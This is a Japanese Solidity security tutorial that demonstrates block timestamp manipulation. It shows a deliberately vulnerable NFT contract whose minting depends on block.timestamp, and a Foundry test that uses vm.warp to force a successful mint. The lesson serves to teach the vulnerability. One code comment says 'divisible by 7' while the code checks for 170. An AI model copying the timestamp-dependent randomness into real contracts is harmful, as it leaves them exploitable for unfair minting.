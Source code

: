 ```yaml
---
title: S14. ブロック時間の操作
tags:
- solidity
- security
- timestamp
---
```


# WTF Solidity 合約セキュリティ: S14. ブロック時間の操作

最近、Solidityを再学習し、詳細を固めるために「WTF Solidity 合約セキュリティ」を書いています。初心者向けのチュートリアル（プログラミング上級者は他のチュートリアルを参照してください）で、毎週1-3レッスンを更新します。

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

コミュニティ: [Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[公式サイト wtf.academy](https://wtf.academy)

すべてのコードとチュートリアルはgithubで公開: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

このレッスンでは、スマートコントラクトのブロック時間操作攻撃について紹介し、Foundryを使って再現します。マージ（The Merge）以前、イーサリアムマイナーはブロック時間を操作することができ、抽選コントラクトの疑似乱数がブロック時間に依存している場合、攻撃される可能性がありました。

## ブロック時間

ブロック時間（block timestamp）は、イーサリアムブロックヘッダーに含まれる`uint64`値で、このブロックが作成されたUTCタイムスタンプ（単位：秒）を表します。マージ（The Merge）以前、イーサリアムは算力によってブロック難易度を調整するため、ブロック生成時間は不定で、平均14.5秒で1ブロックを生成し、マイナーがブロック時間を操作できました。マージ後は、固定で12秒に1ブロックに変更され、バリデーターノードはブロック時間を操作できません。

Solidityでは、開発者はグローバル変数`block.timestamp`を通じて現在のブロックのタイムスタンプを取得でき、型は`uint256`です。

## 脆弱性の例

この例は[WTF Solidity合約セキュリティ: S07. 悪い乱数](https://github.com/AmazingAng/WTF-Solidity/tree/main/S07_BadRandomness)のコントラクトを改写したものです。`mint()`鋳造関数の条件を変更しました：ブロック時間が170で割り切れる時のみ鋳造成功できます：

```solidity
contract TimeManipulation is ERC721 {
    uint256 totalSupply;

    // コンストラクタ、NFTコレクションの名前、シンボルを初期化
    constructor() ERC721("", ""){}

    // 鋳造関数：ブロック時間が7で割り切れる時のみmint成功
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // mint
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## Foundryでの攻撃再現

攻撃者はブロック時間を操作し、170で割り切れる数字に設定するだけで、NFTの鋳造に成功できます。この攻撃の再現にはFoundryを選択します。ブロック時間を修正するチートコード（cheatcodes）を提供するためです。Foundry/チートコードについて理解していない場合は、[Foundryチュートリアル](https://github.com/AmazingAng/WTF-Solidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md)と[Foundry Book](https://book.getfoundry.sh/forge/cheatcodes)をお読みください。

コードの大まかなロジック

1. `TimeManipulation`コントラクト変数`nft`を作成します。
2. ウォレットアドレス`alice`を作成します。
3. チートコード`vm.warp()`を使ってブロック時間を169に変更します。170で割り切れないため、鋳造は失敗します。
4. チートコード`vm.warp()`を使ってブロック時間を17000に変更します。170で割り切れるため、鋳造は成功します。

コード：

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.21;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/TimeManipulation.sol";

contract TimeManipulationTest is Test {
    TimeManipulation public nft;

    // 指定された秘密鍵のアドレスを計算
    address alice = vm.addr(1);

    function setUp() public {
        nft = new TimeManipulation();
    }

    // forge test -vv --match-test  testMint
    function testMint() public {
        console.log("条件 1: block.timestamp % 170 != 0");
        // block.timestampを169に設定
        vm.warp(169);
        console.log("block.timestamp: %s", block.timestamp);
        // 以降のすべての呼び出しのmsg.senderを入力アドレスに設定
        // `stopPrank`が呼ばれるまで
        vm.startPrank(alice);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));

        // block.timestampを17000に設定
        console.log("条件 2: block.timestamp % 170 == 0");
        vm.warp(17000);
        console.log("block.timestamp: %s", block.timestamp);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));
        vm.stopPrank();
    }
}

```

Foundryをインストール後、コマンドラインで以下のコマンドを入力して新プロジェクトを開始し、openzeppelinライブラリをインストールします：

```shell
forge init TimeManipulation
cd TimeManipulation
forge install Openzeppelin/openzeppelin-contracts
```

このレッスンのコードをそれぞれ`src`と`test`ディレクトリにコピーし、以下のコマンドでテストケースを実行します：

```shell
forge test -vv --match-test testMint
```

出力は以下の通りです：

```shell
Running 1 test for test/TimeManipulation.t.sol:TimeManipulationTest
[PASS] testMint() (gas: 94666)
Logs:
  条件 1: block.timestamp % 170 != 0
  block.timestamp: 169
  alice balance before mint: 0
  alice balance after mint: 0
  条件 2: block.timestamp % 170 == 0
  block.timestamp: 17000
  alice balance before mint: 0
  alice balance after mint: 1

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```

`block.timestamp`を17000に変更した時、鋳造が成功したことが確認できます。

## まとめ

このレッスンでは、スマートコントラクトのブロック時間操作攻撃について紹介し、Foundryを使って再現しました。マージ（The Merge）以前、イーサリアムマイナーはブロック時間を操作でき、抽選コントラクトの疑似乱数がブロック時間に依存している場合、攻撃される可能性がありました。マージ後、イーサリアムは固定で12秒に1ブロックに変更され、バリデーターノードはブロック時間を操作できません。したがって、この種の攻撃はイーサリアム上では発生しませんが、他のパブリックチェーンでは依然として遭遇する可能性があります。